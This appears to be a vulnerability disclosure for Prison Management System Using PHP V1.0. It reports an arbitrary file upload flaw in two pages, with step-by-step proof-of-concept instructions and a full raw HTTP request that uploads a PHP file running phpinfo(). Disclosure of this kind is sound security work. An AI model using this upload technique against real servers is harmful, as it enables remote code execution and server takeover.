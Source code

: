 # Prison Management System Using PHP has arbitrary file upload vulnerability

BUG_Author:

AoBo Li

Affected version:

Prison Management System Using PHP V1.0

Vendor:

Fast5

Software:

https://www.sourcecodester.com/sql/17287/prison-management-system.html

Vulnerability File:

/Employee/edit-photo.php

/Admin/add-admin.php



Description:



**1. Vulnerability Description**

The application allows authenticated users to upload files to the server. However, the file upload mechanism does not properly validate the file types being uploaded. As a result, it is possible to upload executable files, which can then be executed on the server.

**2. Proof of Concept (PoC)**

The following steps demonstrate how to exploit the arbitrary file upload vulnerability:

1. **Log in as admin or user,if log in as admin goto add-admin.php, if log in as user goto edit-photo.php.they are same.**
2. **Navigate to the file upload feature.**
3. **Upload a malicious file with a disguised extension (e.g., 1.jpg).**
4. **Rename it to a malicious extension file (e.g., 1.php).**
5. **The application saves the file on the server without proper validation.**
6. **Access the uploaded file via a direct URL and execute it.**

![image-20240925204658976](.\image\image-20240925204658976.png)

The data packet is as follows

```
POST /prison/Admin/add-admin.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------356316614838182701192715677466
Content-Length: 828
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/prison/Admin/add-admin.php
Cookie: PHPSESSID=jrvn8lh2tgi6mdfm6qlpuastm1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtusername"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtfullname"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtpassword"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtphone"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png
<?php
phpinfo()>
?>
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="btncreate"


-----------------------------356316614838182701192715677466--

```

![image-20240925205346343](.\image\image-20240925205346343.png)

![image-20240925210016665](.\image\image-20240925210016665.png)

![image-20240925205632083](.\image\image-20240925205632083.png)



**3. Impact**



The impact of this vulnerability can be severe. An attacker can upload and execute arbitrary code on the server, leading to:

- Unauthorized access to the server.
- Data leakage or manipulation.
- Server compromise and potential lateral movement within the network.